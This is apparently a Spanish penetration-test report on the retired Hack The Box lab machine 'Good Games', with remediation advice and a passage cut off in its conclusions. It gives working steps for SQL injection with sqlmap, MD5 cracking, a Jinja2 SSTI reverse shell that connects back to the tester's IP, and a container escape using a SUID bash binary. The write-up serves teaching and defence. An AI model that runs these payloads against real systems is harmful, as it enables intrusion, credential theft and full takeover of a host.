






# Informe de Prueba de Penetración — Good Games

|                        |                                                                  |
| ---------------------- | ---------------------------------------------------------------- |
| **ID de informe**      | HO-0018-00                                                       |
| **Objetivo**           | Good Games (`10.129.96.71`)                                      |
| **Plataforma**         | Hack The Box — máquina retirada                                  |
| **Tipo de prueba**     | Caja negra (black box)                                           |
| **Fecha de ejecución** | 2026-10-26                                                       |
| **Autor**              | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión**            | 1.0                                                              |
| **Clasificación**      | Público — uso educativo                                          |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio autorizado
> (Hack The Box) y sobre una máquina retirada. Ninguna técnica descrita debe aplicarse
> sobre sistemas sin autorización expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha      | Descripción     |
| ------- | ---------- | --------------- |
| 1.0     | 2026-10-26 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Good Games** simulando un atacante externo sin
credenciales ni conocimiento previo del entorno, con el fin de obtener el máximo nivel
de privilegios posible.

### 1.2 Resultado

> Se obtuvo el control total del servidor. La tienda web expuesta en Internet contenía un
> formulario de acceso que no validaba correctamente los datos introducidos, lo que permitió
> extraer las credenciales de la cuenta de administrador directamente de la base de datos.
> Con ese acceso, un segundo panel interno permitía inyectar instrucciones que el servidor
> ejecutaba como si fueran propias, dando control inmediato del sistema. Por último, una
> configuración débil del aislamiento entre contenedores y la reutilización de la misma
> contraseña permitieron saltar al servidor anfitrión y conseguir privilegios de administrador.
> Un atacante real podría leer, modificar o destruir toda la información de clientes y del
> negocio alojada en el equipo.

**Nivel de riesgo global:** `CRÍTICO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
| :-----: | :--: | :---: | :--: | :---------: |
|    1    |  2   |   1   |  0   |      0      |

### 1.4 Resumen de hallazgos

| ID                                                                                                          | Hallazgo                                                                          | Severidad | CVSS |
| ----------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------- | --------- | ---- |
| [HO-0018-01](#ho-0018-01--inyección-sql-ciega-basada-en-tiempo-en-el-formulario-de-acceso)                  | Inyección SQL ciega basada en tiempo en el formulario de acceso                   | Alta      | 8.2  |
| [HO-0018-02](#ho-0018-02--inyección-de-plantillas-del-lado-del-servidor-ssti-que-deriva-en-rce)             | Inyección de plantillas del lado del servidor (SSTI) que deriva en RCE            | Crítica   | 9.9  |
| [HO-0018-03](#ho-0018-03--escape-de-contenedor-por-montaje-compartido-reuso-de-credenciales-y-binario-suid) | Escape de contenedor por montaje compartido, reúso de credenciales y binario SUID | Alta      | 8.8  |
| [HO-0018-04](#ho-0018-04--almacenamiento-de-contraseñas-con-md5-sin-sal)                                    | Almacenamiento de contraseñas con MD5 sin sal                                     | Media     | 4.3  |

### 1.5 Recomendaciones prioritarias

1. Parametrizar todas las consultas SQL del formulario de acceso y aplicar consultas
   preparadas para eliminar la inyección que expone las credenciales (HO-0018-01).
2. Sanear la entrada del panel interno y renderizar las plantillas en un entorno aislado
   (_sandbox_) para impedir la ejecución remota de código vía SSTI (HO-0018-02).
3. Endurecer el aislamiento de contenedores: eliminar montajes de directorios del anfitrión
   con permisos de escritura, aplicar `nosuid` en esos montajes y dejar de reutilizar
   contraseñas entre servicios (HO-0018-03).

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo     | Dirección      | Incluido |
| ---------- | -------------- | :------: |
| Good Games | `10.129.96.71` |    Sí    |

**Fuera de alcance:** ataques de denegación de servicio, infraestructura de la
plataforma y otros jugadores.

### 2.2 Metodología

La prueba siguió las fases del estándar **PTES** (Penetration Testing Execution
Standard), apoyándose en **OWASP WSTG** para los componentes web:

1. **Reconocimiento** — descubrimiento de puertos y servicios.
2. **Enumeración** — identificación de versiones, tecnologías y superficie de ataque.
3. **Análisis de vulnerabilidades** — validación manual de posibles fallos.
4. **Explotación** — obtención de acceso inicial.
5. **Post-explotación** — escalada de privilegios y movimiento lateral.
6. **Reporte** — documentación de hallazgos y recomendaciones.

### 2.3 Entorno del auditor

| Componente   | Detalle                                                                    |
| ------------ | -------------------------------------------------------------------------- |
| Sistema      | Linux (kernel 7.2.11-zen1-1-zen)                                           |
| Conexión     | VPN de Hack The Box                                                        |
| Herramientas | nmap, Burp Suite, sqlmap, name-that-hash, john, netcat, ssh, navegador web |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1** (ver tabla de criterios estándar).

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



### 3.2 Reconocimiento

Comprobación de conectividad: la respuesta ICMP con `ttl=63` (valor cercano a 64 tras un
salto) sugiere un sistema **Linux**.

```bash
ping -c1 10.129.96.71
# 64 bytes from 10.129.96.71: icmp_seq=1 ttl=63 time=165 ms
```

Descubrimiento de puertos abiertos sobre todo el rango TCP:

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n -oN puertos.txt 10.129.96.71
```

Detección de servicios y versiones sobre los puertos abiertos:

```bash
nmap -sVC -p80 -T4 -Pn -n -oN detallado.txt 10.129.96.71
```

| Puerto | Servicio | Versión                             | Observaciones                                          |
| ------ | -------- | ----------------------------------- | ------------------------------------------------------ |
| 80/tcp | HTTP     | Werkzeug httpd 2.0.2 (Python 3.9.2) | Aplicación Flask; única superficie de ataque expuesta. |

El servidor es **Werkzeug/Flask** (no un servidor web tradicional), lo que anticipa una
pila Python y, con ella, la posibilidad de motores de plantillas tipo Jinja2. El título de
la página es `GoodGames | Community and Store`. No se expone SSH al exterior: el puerto 22
solo aparecerá más tarde, en la red interna de Docker.

> Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

La aplicación es una tienda/comunidad de videojuegos que redirige al host virtual
`goodgames.htb`, por lo que se añade a la resolución local:

```bash
echo "10.129.96.71 goodgames.htb" | sudo tee -a /etc/hosts
```

La web ofrece un formulario de registro e inicio de sesión en `POST /login`. Al interceptar
la petición con Burp Suite (ver [Anexo A](#a-salida-completa-de-escaneos)) se observa que el
parámetro `email` se envía sin aparente saneamiento, lo que lo convierte en el candidato
principal para una inyección SQL.

### 3.4 Acceso inicial

El parámetro `email` del formulario de acceso es vulnerable a inyección SQL ciega basada en
tiempo. Mediante `sqlmap` se extrajeron las credenciales del administrador, cuyo hash MD5 se
crackeó offline. Ver **[HO-0018-01](#ho-0018-01--inyección-sql-ciega-basada-en-tiempo-en-el-formulario-de-acceso)**.

### 3.5 Movimiento lateral

Autenticado como `admin`, la sección de ajustes redirige al subdominio interno
`internal-administration.goodgames.htb` (panel _Flask Volt Dashboard_), que se añade también
a `/etc/hosts`. El mismo par de credenciales permite acceder a ese panel, cuyo campo de
perfil es vulnerable a SSTI. Ver **[HO-0018-02](#ho-0018-02--inyección-de-plantillas-del-lado-del-servidor-ssti-que-deriva-en-rce)**.

### 3.6 Escalada de privilegios

La ejecución remota de código otorga `root` **dentro de un contenedor Docker**. Desde ahí se
aprovecha un montaje del directorio `/home/augustus` compartido con el host, la reutilización
de la contraseña del administrador en la cuenta `augustus` por SSH y un binario `bash` con
bit SUID para obtener `root` en el **anfitrión**. Ver
**[HO-0018-03](#ho-0018-03--escape-de-contenedor-por-montaje-compartido-reuso-de-credenciales-y-binario-suid)**.

---

## 4. Hallazgos técnicos

### HO-0018-01 — Inyección SQL ciega basada en tiempo en el formulario de acceso

|                         |                                                                                                                                   |
| ----------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| **Severidad**           | Alta                                                                                                                              |
| **CVSS v3.1**           | 8.2 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N`                                                                              |
| **CWE**                 | [CWE-89](https://cwe.mitre.org/data/definitions/89.html) — Neutralización incorrecta de elementos especiales en una sentencia SQL |
| **CVE**                 | —                                                                                                                                 |
| **Componente afectado** | `http://goodgames.htb/login` — parámetro `email` (POST)                                                                           |
| **Estado**              | Explotada                                                                                                                         |

#### Descripción

El formulario de inicio de sesión construye la consulta SQL concatenando directamente el
valor del parámetro `email`, sin consultas preparadas ni saneamiento. Esto permite alterar
la lógica de la consulta e inferir datos carácter a carácter mediante retardos temporales
(_time-based blind_). La causa raíz es la ausencia de parametrización en el acceso a la base
de datos MySQL del _backend_.

#### Prueba de concepto

**Paso 1.** Se captura la petición de login con Burp Suite y se guarda como `login.req`:

```http
POST /login HTTP/1.1
Host: goodgames.htb
Content-Type: application/x-www-form-urlencoded

email=admin@goodgames.htb&password=password
```

**Paso 2.** Se valida la inyección y se enumeran las bases de datos:

```bash
sqlmap -r login.req --batch --dbs
```

`sqlmap` confirma la inyección en el parámetro `email` con una carga de tipo _time-based blind_:

```text
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@goodgames.htb' AND (SELECT 5498 FROM (SELECT(!SLEEP(5)))wroh) AND 'Oees'='Oees&password=password
```

**Paso 3.** Se enumeran tablas y se vuelca la tabla `user` de la base de datos `main`:

```bash
sqlmap -r login.req --batch -D main --tables
sqlmap -r login.req --batch -D main -T user --dump
```

```text
Database: main
Table: user
[1 entry]
+----+---------------------+--------+----------------------------------+
| id | email               | name   | password                         |
+----+---------------------+--------+----------------------------------+
| 1  | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+---------------------+--------+----------------------------------+
```

**Paso 4.** Se identifica el tipo de hash (MD5 sin sal) y se crackea offline con `john`
usando el diccionario `rockyou`:

```bash
name-that-hash -f hash_admin.txt         # → Raw MD5
john --format=raw-md5 --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash_admin.txt
john --show --format=raw-md5 hash_admin.txt
```

Se obtiene la credencial del administrador: `admin@goodgames.htb : super*************`.

#### Impacto

Un atacante no autenticado puede extraer el contenido completo de la base de datos, incluidas
las credenciales de administrador, y autenticarse en la aplicación con el máximo nivel
funcional. La exposición de los hashes, almacenados con MD5 sin sal (ver
[HO-0018-04](#ho-0018-04--almacenamiento-de-contraseñas-con-md5-sin-sal)), facilita además su
crackeo inmediato.

#### Remediación

- **Corto plazo:** parametrizar la consulta del login con sentencias preparadas (_prepared
  statements_) y validar el formato del campo `email`.
- **Largo plazo:** usar un ORM o una capa de acceso a datos que force la parametrización,
  aplicar el principio de mínimo privilegio a la cuenta de base de datos y desplegar un WAF
  como defensa en profundidad.

#### Referencias

- [OWASP — SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [CWE-89](https://cwe.mitre.org/data/definitions/89.html)

---

### HO-0018-02 — Inyección de plantillas del lado del servidor (SSTI) que deriva en RCE

|                         |                                                                                                                                                   |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severidad**           | Crítica                                                                                                                                           |
| **CVSS v3.1**           | 9.9 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                              |
| **CWE**                 | [CWE-1336](https://cwe.mitre.org/data/definitions/1336.html) — Neutralización incorrecta de elementos especiales usados en un motor de plantillas |
| **CVE**                 | —                                                                                                                                                 |
| **Componente afectado** | `http://internal-administration.goodgames.htb/` — campo _Full Name_ del perfil                                                                    |
| **Estado**              | Explotada                                                                                                                                         |

#### Descripción

El panel de administración interno (_Flask Volt Dashboard_) renderiza el nombre del usuario
directamente dentro de una plantilla **Jinja2** sin escaparlo. Al no distinguir entre datos
y código de plantilla, cualquier expresión introducida en el campo _Full Name_ se evalúa en
el servidor, permitiendo acceder a objetos internos de Python y, a través de ellos, ejecutar
comandos del sistema operativo. La aplicación se ejecuta como `root` dentro de su contenedor,
por lo que la ejecución hereda ese privilegio.

#### Prueba de concepto

**Paso 1.** Se accede a `internal-administration.goodgames.htb` con las credenciales
obtenidas en HO-0018-01 y se inyecta una expresión de prueba en el campo _Full Name_:

```jinja
{{7*7}}
```

El perfil refleja `49`, confirmando la evaluación de plantillas del lado del servidor.

<div align="center">
  
  <br/>
  <sub><em>Figura 1 — El valor <code>{{7*7}}</code> se renderiza como <code>49</code> en el perfil, confirmando la SSTI.</em></sub>
</div>

**Paso 2.** Se escala a ejecución de comandos para comprobar el usuario del proceso:

```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

El resultado muestra `uid=0(root) gid=0(root) groups=0(root)`.

<div align="center">
  
  <br/>
  <sub><em>Figura 2 — La ejecución de <code>id</code> a través de la SSTI confirma RCE como <code>root</code>.</em></sub>
</div>

**Paso 3.** Se abre un _listener_ y se inyecta una _reverse shell_:

```bash
sudo nc -lvnp 443
```

```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.15.56/443 0>&1"').read() }}
```

Se recibe una shell interactiva como `root@3a453ab39d3d`, el identificador del contenedor
Docker.

<div align="center">
  
  <br/>
  <sub><em>Figura 3 — Carga SSTI de reverse shell y conexión entrante como <code>root@3a453ab39d3d</code>.</em></sub>
</div>

**Paso 4.** Se lee la primera flag:

```bash
cat /home/augustus/user.txt
# 11b451ae**********************
```

#### Impacto

Permite la ejecución remota de código arbitrario con privilegios de `root` dentro del
contenedor, comprometiendo la confidencialidad, integridad y disponibilidad de la aplicación
y de los datos que maneja, y sirviendo de plataforma para pivotar hacia el resto de la
infraestructura.

#### Remediación

- **Corto plazo:** escapar/validar el campo _Full Name_ y nunca pasar datos de usuario como
  plantilla; tratarlos siempre como contexto de datos (`render_template` con variables, no
  `render_template_string` sobre entrada del usuario).
- **Largo plazo:** renderizar las plantillas en un entorno aislado (_sandboxed environment_
  de Jinja2), ejecutar la aplicación con un usuario sin privilegios y aplicar una política de
  mínimo privilegio en el contenedor.

#### Referencias

- [PortSwigger — Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)
- [PayloadsAllTheThings — SSTI (Jinja2)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [CWE-1336](https://cwe.mitre.org/data/definitions/1336.html)

---

### HO-0018-03 — Escape de contenedor por montaje compartido, reúso de credenciales y binario SUID

|                         |                                                                                                                                                                                                  |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Severidad**           | Alta                                                                                                                                                                                             |
| **CVSS v3.1**           | 8.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                                                                             |
| **CWE**                 | [CWE-269](https://cwe.mitre.org/data/definitions/269.html) — Gestión incorrecta de privilegios (reforzado por reúso de credenciales, [CWE-521](https://cwe.mitre.org/data/definitions/521.html)) |
| **CVE**                 | —                                                                                                                                                                                                |
| **Componente afectado** | Host `172.19.0.1` (SSH) y montaje `/home/augustus` compartido entre contenedor y anfitrión                                                                                                       |
| **Estado**              | Explotada                                                                                                                                                                                        |

#### Descripción

El contenedor comparte el directorio `/home/augustus` con el sistema anfitrión mediante un
_bind mount_ con permisos de escritura y sin la opción `nosuid`. Como el proceso dentro del
contenedor es `root`, puede crear en ese directorio un binario con bit SUID propiedad de
`root` que, al ejecutarse en el anfitrión, otorga privilegios de superusuario. La debilidad
se combina con la reutilización de la contraseña del administrador en la cuenta `augustus`,
accesible por SSH en la red interna de Docker.

#### Prueba de concepto

**Paso 1.** Se identifica el entorno Docker y el montaje compartido. El `mount` muestra que
`/home/augustus` reside en `/dev/sda1` (disco del anfitrión) y `/etc/hosts` revela la red
`172.19.0.0/16`, con la puerta de enlace típica del host en `172.19.0.1`:

```bash
mount | grep -i "/dev/s"
# /dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
cat /etc/hosts
# 172.19.0.2    3a453ab39d3d
```

<div align="center">
  
  <br/>
  <sub><em>Figura 4 — <code>/home/augustus</code> montado desde <code>/dev/sda1</code> (host) y red Docker en <code>/etc/hosts</code>.</em></sub>
</div>

**Paso 2.** Desde el contenedor se descubren los puertos del anfitrión `172.19.0.1` con un
_oneliner_ de Bash (sin herramientas externas) y se accede por SSH reutilizando la contraseña
del administrador:

```bash
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
# port 22 is open
# port 80 is open
ssh augustus@172.19.0.1        # contraseña: super************* (reutilizada)
```

<div align="center">
  
  <br/>
  <sub><em>Figura 5 — Puertos 22/80 abiertos en <code>172.19.0.1</code> y sesión SSH como <code>augustus</code> en el host.</em></sub>
</div>

**Paso 3.** Desde la shell `root` del **contenedor** (que escribe en el `/home/augustus`
compartido), se copia `bash` y se le asigna propietario `root` y bit SUID:

```bash
cp /bin/bash /home/augustus/bash
chown root:root /home/augustus/bash
chmod 4755 /home/augustus/bash
```

**Paso 4.** En la sesión SSH como `augustus` en el **anfitrión**, se ejecuta el binario SUID
preservando privilegios y se lee la flag de `root`:

```bash
./bash -p
# id → euid=0(root)
cat /root/root.txt
# dc99b4a6**********************
```

#### Impacto

Permite escapar del contenedor y obtener privilegios de `root` en el servidor anfitrión,
comprometiendo por completo el sistema, el resto de contenedores y todos los datos alojados.

#### Remediación

- **Corto plazo:** eliminar el _bind mount_ de escritura del directorio del anfitrión o
  montarlo con las opciones `nosuid`, `nodev` y, cuando sea posible, `ro`; dejar de reutilizar
  la contraseña del administrador en cuentas del sistema.
- **Largo plazo:** no ejecutar procesos como `root` dentro de contenedores (usuario sin
  privilegios, `--user`), aplicar _user namespaces_ de Docker, gestionar credenciales únicas
  por servicio y adoptar autenticación SSH por clave.

#### Referencias

- [GTFOBins — bash (SUID)](https://gtfobins.github.io/gtfobins/bash/#suid)
- [Docker — Bind mounts](https://docs.docker.com/storage/bind-mounts/)
- [CWE-269](https://cwe.mitre.org/data/definitions/269.html)

---

### HO-0018-04 — Almacenamiento de contraseñas con MD5 sin sal

|                         |                                                                                                                                |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| **Severidad**           | Media                                                                                                                          |
| **CVSS v3.1**           | 4.3 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N`                                                                           |
| **CWE**                 | [CWE-916](https://cwe.mitre.org/data/definitions/916.html) — Uso de hash de contraseña con esfuerzo computacional insuficiente |
| **CVE**                 | —                                                                                                                              |
| **Componente afectado** | Tabla `main.user` — columna `password`                                                                                         |
| **Estado**              | Confirmada                                                                                                                     |

#### Descripción

Las contraseñas se almacenan como hashes **MD5 sin sal**. MD5 es un algoritmo rápido y sin
factor de trabajo, lo que permite crackear las credenciales expuestas en segundos con un
diccionario común. Esta debilidad amplifica el impacto de la inyección SQL (HO-0018-01): una
vez volcado el hash, obtener la contraseña en claro es trivial.

#### Prueba de concepto

El hash volcado `2b22337f218b2d82dfc3b6f77e7cb8ec` se identifica como MD5 crudo y se crackea
de inmediato con `rockyou`:

```bash
name-that-hash -f hash_admin.txt     # → Raw MD5
john --format=raw-md5 --wordlist=.../rockyou.txt hash_admin.txt
```

#### Impacto

Ante cualquier fuga de la base de datos, las contraseñas quedan expuestas casi sin esfuerzo,
lo que facilita el acceso no autorizado y, por reutilización, el compromiso de otros servicios.

#### Remediación

- **Corto plazo:** migrar el almacenamiento a un algoritmo de hash lento y con sal (bcrypt,
  Argon2id o scrypt).
- **Largo plazo:** aplicar una política de contraseñas robusta, forzar el rehasheo en el
  siguiente inicio de sesión y prohibir la reutilización de contraseñas entre servicios.

#### Referencias

- [OWASP — Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)
- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel                  | Usuario             | Método     | Prueba                                        |
| ---------------------- | ------------------- | ---------- | --------------------------------------------- |
| Root en contenedor     | `root@3a453ab39d3d` | HO-0018-02 | `user.txt` — `11b451ae**********************` |
| Administrador del host | `root`              | HO-0018-03 | `root.txt` — `dc99b4a6**********************` |

> La flag `user.txt` se encuentra en `/home/augustus/user.txt`, accesible desde el
> contenedor por el montaje compartido.

### 5.2 Información sensible expuesta

| Tipo                          | Ubicación                            | Observación                                |
| ----------------------------- | ------------------------------------ | ------------------------------------------ |
| Credenciales de administrador | Base de datos `main.user`            | Hash MD5 sin sal; crackeado offline.       |
| Contraseña reutilizada        | Cuenta `augustus` (SSH del host)     | Misma contraseña que el administrador web. |
| Montaje del anfitrión         | `/home/augustus` (contenedor → host) | Permite escribir binarios SUID en el host. |

> Las credenciales y flags se muestran parcialmente censuradas.

### 5.3 Limpieza

| Artefacto    | Ubicación                    | Estado                               |
| ------------ | ---------------------------- | ------------------------------------ |
| Binario SUID | `/home/augustus/bash` (host) | Pendiente de eliminar tras la prueba |

> **Nota.** El binario `bash` con bit SUID debe eliminarse para no dejar una puerta trasera
> de escalada en el entorno.

---

## 6. Conclusiones

### 6.1 Conclusión técnica

El compromiso total encadena cuatro debilidades independientes. La falta de parametrización
en el login (HO-0018-01) expone las credenciales; su almacenamiento con MD5 sin sal
(HO-0018-04) las entrega en claro casi al instante; la inyección de plantillas en el panel
interno (HO-0018-02) convierte ese acceso en ejecución remota de código como `root`; y, por
último, un aislamiento de contenedor deficiente sumado a la reutilización de contraseñas
(HO-0018-03) permite saltar al anfitrión. Ninguna de las fallas es exótica: todas derivan de
no tratar la entrada del usuario como no confiable y de no aplicar el principio de mínimo
